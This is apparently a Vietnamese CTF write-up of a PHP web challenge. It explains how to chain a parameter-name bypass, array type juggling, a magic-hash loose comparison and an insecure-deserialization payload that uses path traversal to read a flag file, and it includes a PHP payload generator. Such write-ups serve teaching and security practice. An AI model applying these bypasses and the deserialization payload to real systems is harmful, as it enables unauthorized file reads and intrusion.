


# Tổng quan
Mô tả: The Ultimative Corporation is retiring its legacy identity platform. One final all-in-one migration form verifies administrator access, recovery answers, a dual-format migration code, and an exported PHP profile.
The developers insist that every individual check is secure. Complete the migration and recover the flag.
Cấu trúc source:
```shell
.
└── ultimative_php
    ├── deploy
    │   ├── challenge.ini
    │   ├── Dockerfile
    │   └── entrypoint.sh
    ├── flag.txt
    ├── README.md
    └── src
        ├── index.php
        ├── manual
        │   └── operations.php
        ├── style.css
        └── templates
            └── welcome.txt
```
FLAG: `/flag`

# Phân tích
Điều đầu tiên mình nhận thấy khi đọc file `index.php` là có rất nhiều cơ chế filter nhưng theo đó cũng nhiều cách bypass. Cụ thể như sau

```php
final class LegacyTemplate
{
    public $template = 'welcome.txt';

    public function __toString(): string
    {
        if (strpos($this->template, '../')) {
            return '[invalid template]';
        }

        $path = __DIR__ . '/templates/' . $this->template;
        $contents = file_get_contents($path);

        return $contents === false ? '[missing template]' : $contents;
    }
}
```
Class LegacyTemplate có method `__toString()` có cơ chế kiểm tra path traversal bằng hàm strpos() nếu tìm thấy chuỗi `../` trong `$template`. Vì strpos() return vị trí đầu tiên tìm thấy nên nếu `$template` là `../flag` thì hàm strpos() return `0` => `if(0)` tương đương với `if(false)` => chương trình sẽ không đi vào lệnh `if`.

```php

$rawQuery = $_SERVER['QUERY_STRING'] ?? '';

if (str_contains(rawurldecode($rawQuery), 'access_level')) {
    fail_request('The access_level parameter is protected');
}

if (($_GET['access_level'] ?? '') !== 'administrator') {
    fail_request('Administrator access required');
}
```

Đoạn code trên kiểm tra khá là mẫu thuẫn, ban đầu chặn QUERY_STRING chứa access_level nhưng đoạn phía dưới lại kiểm tra tham số `access_level` có value `administrator`. Khi tên tham số đưa vào `$_GET` có một số các kí tự đặc biệt như `.` và `+` sẽ được chuyển đổi thành `_` [1]. Như vậy mình có thể bypass đoạn trên bằng `?access.level=administrator` để có quyền admin.

```php
$primary = $_GET['primary'] ?? null;
$backup = $_GET['backup'] ?? null;

if ($primary === null || $backup === null) {
    fail_request('Both recovery answers are required');
}

if (get_debug_type($primary) !== get_debug_type($backup)) {
    fail_request('Recovery answers must use the same format');
}

if ($primary === $backup) {
    fail_request('Recovery answers must be different');
}

$primaryMaterial = 'legacy-recovery:v1:' . $primary;
$backupMaterial = 'legacy-recovery:v1:' . $backup;

$primaryHash = hash('sha256', $primaryMaterial);
$backupHash = hash('sha256', $backupMaterial);

if (!hash_equals($primaryHash, $backupHash)) {
    fail_request('Recovery fingerprints do not match');
}
```
Tiếp theo, đoạn code kiểm tra hai tham số primary và backup với các điều kiện:
1. Cả hai tham số bắt buộc phải tồn tại
2. Phải cùng kiểu dữ liệu.
3. Giá trị của chúng phải khác nhau.

Sau đó, nối giá trị của primary và backup với tiền tố 'legacy-recovery:v1:', băm SHA-256 rồi so sánh hai chuỗi hash thu được.

Cách bypass: Mình truyền primary và backup dưới dạng hai mảng khác nhau (?primary[]=1&backup[]=2). 
1.cả hai đều có kiểu dữ liệu là array (thỏa mãn điều kiện cùng định dạng).
2.Hai mảng có nội dung khác nhau nên vượt qua bước kiểm tra $primary === $backup.
3.Khi thực hiện ghép chuỗi bằng toán tử ., PHP sẽ tự động ép mảng về chuỗi "Array" (Array to string conversion). Cả hai biến đều trở thành 'legacy-recovery:v1:Array', sinh ra giá trị băm SHA-256 giống hệt nhau và vượt qua bước kiểm tra cuối cùng.

```php

$code = $_GET['code'] ?? '';

if (!is_string($code) || strlen($code) > 64) {
    fail_request('Invalid migration code');
}

$material = 'ULTIMATIVE-PHP-2026:' . $code;
$legacyDigest = substr(hash('md5', $material), 0, 9);
$modernDigest = substr(hash('sha256', $material), 0, 9);

if (!($legacyDigest !== $modernDigest && $legacyDigest == $modernDigest)) {
    fail_request('The compatibility code was rejected', [
        'legacy' => $legacyDigest,
        'modern' => $modernDigest,
    ]);
}
```
Tiếp theo, chương trình sẽ lấy tham số `code` rồi nối tiền số `ULTIMATIVE-PHP-2026:` sau đó sẽ hash với 2 thuật toán khác nhau là `md5` và `sha256` lấy 9 kí tự của từng hash và gắn vào 2 biến `legacyDigest` `modernDigest`. Để bypass được hàm kiểm tra if thì cần tìm giá trị code sao cho `$legacyDigest !== $modernDigest && $legacyDigest == $modernDigest)`. Vế kiểm tra đầu thực hiện kiểm tra chặt nhưng vế sau lại sử dụng so sánh lỏng lẻo. Mình search thì trong php có `magic hash`. 

`magic hash` là chuỗi hash khác nhau nhưng khi được so sánh với toán tử `==` sẽ khiến chúng bị coi như nhau giống nhau. Cụ thểm, một số chuỗi hash có định dạng đặc biệt, chẳng hạn bắt đầu bằng 0e và theo sau là các chữ số được hiểu dưới dạng số mũ. Ví dụ `0e123` sẽ được hiểu là `0 x 10^123 =0 `. Mình sẽ thực hiện brute giá trị `code` và tìm được là giá trị `59036305`. C


```php
$encodedProfile = $_GET['profile'] ?? '';

if (!is_string($encodedProfile)) {
    fail_request('Invalid profile encoding');
}

$serializedProfile = decode_base64url($encodedProfile);

if ($serializedProfile === false) {
    fail_request('Invalid profile encoding');
}

$profile = @unserialize($serializedProfile, [
    'allowed_classes' => [MigratedProfile::class, LegacyTemplate::class],
]);

if (!$profile instanceof MigratedProfile) {
    fail_request('Unsupported profile type');
}
```
Đoạn code cuối cùng kiểm tra giá trị của `profile`. giá trị của nó sẽ là `serialize data` và nó sẽ được khôi phục object. Trong hàm unserialize chỉ cho phép các class như `MigratedProfile` và `LegacyTemplate`. Nhưng lại yêu cầu profile instanceof class MigratedProfile. Từ đây lỗ hổng xảy ra sẽ là `Insecure Deserialization` trong php. Cụ thể ở đây mình sẽ inject object thuộc class legacyTemplate vào thuộc tính displayName của class MigratedProfile và sửa đổi biến `template` thành `../../../../flag`
# Khai thác
1. Thực hiện các bước bypass lần lượt để có thể gọi được tham số `profile`
2. Tạo `serialize data` khai thác đọc flag:
```php
bda00715b497eb58afc4e775d78e41c9
bda00715b497eb58afc4e775d78e41c9


<?php
final class MigratedProfile
{
    public $displayName = 'guest';

    public function __toString(): string
    {
        return (string) $this->displayName;
    }
}
final class LegacyTemplate
{
    public $template = 'welcome.txt';

    public function __toString(): string
    {
        if (strpos($this->template, '../')) {
            return '[invalid template]';
        }

        $path = __DIR__ . '/templates/' . $this->template;
        $contents = file_get_contents($path);

        return $contents === false ? '[missing template]' : $contents;
    }
}
$obj=new MigratedProfile();
$obj->displayName= new LegacyTemplate();
$obj->displayName->template="../../../../flag";

function encode_base64url(string $data): string {
    return rtrim(strtr(base64_encode($data), '+/', '-_'), '=');
}

$payload = encode_base64url(serialize($obj));
echo "Payload:" . $payload;

?>
```
Kết quả:


# Kết Luận
|TOP 10 OWSAP|CWE|Location in source|
|---|---|---|
|A08: Software or Data Integrity Failures|CWE 502: Deserialize of Untrusted Data| `unserialize()`
|A01:2025 – Broken Access Control|CWE-22 Improper Limitation of a Pathname to a Restricted Directory ('Path Traversal')|`strpos()` và `file_get_contents`
|A01:2025 – Broken Access Control|CWE-284: Improper Access Control| `$_GET[access_level]`
|A06:2025 – Insecure Design|CWE-697: Incorrect Comparison| `loose comparison(==)`

# Tài liệu
[1]: https://www.php.net/manual/en/language.variables.external.php

[2]: https://portswigger.net/web-security/deserialization